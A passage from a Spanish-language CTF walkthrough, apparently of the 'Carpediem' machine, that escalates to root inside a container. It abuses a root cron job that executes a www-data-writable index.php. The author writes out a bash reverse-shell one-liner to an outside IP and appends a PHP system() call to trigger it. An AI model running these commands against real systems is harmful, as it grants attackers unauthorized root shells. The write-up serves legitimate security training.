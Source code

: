 Veo que nuevamente estamos en otro contenedor, por lo tanto vuelvo hacer un tratamiento de la TTY para tener una consola completamente interactiva

![TTY](../assets/images-Carpediem/tty.png)

al ver por los procesos que se están ejecutando, veo una tarea cron donde root ejecuta `heartbeat.sh` 
```bash
ps -eo user,command
```
![Proceso](../assets/images-Carpediem/procesos.png)

veo que este script primero esta haciendo un checksum donde si `backdrop.sh` no es igual al hash en `MD5` de backdrop.sh el script termina aquí por lo tanto a backdrop.sh no lo puedo editar.
Este script de backdrop.sh se utiliza para montar backdrop.

![Script](../assets/images-Carpediem/script.png)

```bash
www-data@90c7f522b842:/var/www/html/backdrop$ md5sum /var/www/html/backdrop/core/scripts/backdrop.sh
70a121c0202a33567101e2330c069b34  /var/www/html/backdrop/core/scripts/backdrop.sh
```
Como cada vez que se ejecuta el script, el archivo `index.php` se restaura e `index.php`es propiedad de www-data, por lo que puedo editarlo, por lo tanto voy a intentar agregar una linea al final con la cual me envié una revershell 
```bash
echo -e '#!/bin/bash \n\nbash -i >& /dev/tcp/10.10.16.6/443 0>&1' > reverse
echo 'system("bash /dev/shm/reverse");' >> /var/www/html/backdrop/index.php
```
Veo que al esperar un momento me envía la revershell y ahora estamos dentro del contenedor como root 
